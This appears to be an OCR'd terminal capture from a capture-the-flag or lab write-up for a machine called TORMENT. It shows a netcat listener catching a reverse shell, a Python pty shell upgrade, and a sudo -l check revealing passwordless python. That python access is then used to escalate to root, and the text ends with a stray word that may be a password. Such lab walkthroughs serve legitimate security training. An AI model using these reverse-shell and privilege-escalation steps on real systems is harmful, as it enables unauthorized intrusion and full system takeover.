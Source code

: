 

    └─$ nc -nlvp 1234
    listening on [any] 1234 ...
    connect to [192.168.110.1] from (UNKNOWN) [192.168.110.21] 46622
    Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
     16:53:23 up 1 min,  0 users,  load average: 0.27, 0.13, 0.05
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)
    $ python -c "import pty; pty.spawn('/bin/bash')"
    qiu@TORMENT:/$ sudo -l
    sudo -l
    Matching Defaults entries for qiu on TORMENT:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User qiu may run the following commands on TORMENT:
        (ALL) NOPASSWD: /usr/bin/python, /bin/systemctl

    echo "import os" > test.py
    echo "os.system('/bin/bash')" >> test.py

    qiu@TORMENT:/home/qiu$ sudo python test.py
    sudo python test.py
    root@TORMENT:/home/qiu# id
    id
    uid=0(root) gid=0(root) groups=0(root)


wealllikedebian
